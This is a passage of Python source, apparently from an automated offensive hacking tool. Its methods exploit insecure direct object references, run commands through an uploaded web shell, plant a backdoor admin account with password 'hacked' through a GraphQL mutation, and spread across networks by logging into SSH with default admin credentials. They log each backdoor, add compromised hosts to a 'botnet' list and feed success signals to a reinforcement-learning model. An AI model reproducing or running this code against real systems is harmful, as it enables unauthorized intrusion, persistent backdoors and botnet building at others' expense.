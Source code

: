     def exploit_idor(self, vuln):
        url = vuln["url"]
        test_url = vuln["test_url"]
        print(f"[*] Exploiting IDOR on {url}...")
        success = False
        try:
            response = self.session.get(test_url, timeout=10)
            print(f"[!] IDOR exploited! Accessed unauthorized data at {test_url}:\n{response.text[:500]}...")
            success = True
        except Exception as e:
            print(f"[!] Error exploiting IDOR: {e}")
        self.update_rl_model("exploit", success)

    def exploit_file_upload(self, vuln):
        url = vuln["url"]
        shell_url = vuln["shell_url"]
        print(f"[*] Exploiting File Upload on {url}...")
        success = False
        try:
            response = self.session.get(f"{shell_url}?cmd=id", timeout=10)
            print(f"[!] File Upload exploited! Shell output:\n{response.text[:500]}...")
            self.backdoors.append({"type": "File Upload", "url": shell_url})
            success = True
        except Exception as e:
            print(f"[!] Error exploiting File Upload: {e}")
        self.update_rl_model("exploit", success)

    def exploit_zero_day(self, vuln):
        url = vuln["url"]
        print(f"[*] Exploiting Zero-Day on {url}...")
        success = False
        try:
            payload = {"query": "mutation { createUser(name: \"admin\", password: \"hacked\") { id } }"}
            response = self.session.post(url, json=payload, timeout=10)
            if "id" in response.text:
                print(f"[!] Zero-Day exploited! Created malicious user via GraphQL.")
                success = True
            self.backdoors.append({"type": "Zero-Day", "url": url})
        except Exception as e:
            print(f"[!] Error exploiting Zero-Day: {e}")
        self.update_rl_model("exploit", success)

    def pivot_network(self):
        print("[*] Pivoting in the network...")
        success = False
        for target in self.network_targets:
            ip, port = target.split(":")
            print(f"[*] Targeting {target}...")
            try:
                ssh = paramiko.SSHClient()
                ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                ssh.connect(ip, port=int(port), username="admin", password="admin", timeout=10)
                stdin, stdout, stderr = ssh.exec_command("whoami")
                print(f"[!] SSH access gained on {target}! Output: {stdout.read().decode()}")
                self.backdoors.append({"type": "SSH", "target": target})
                self.botnet.append(target)
                ssh.close()
                success = True
            except:
                pass
        self.update_rl_model("pivot", success)
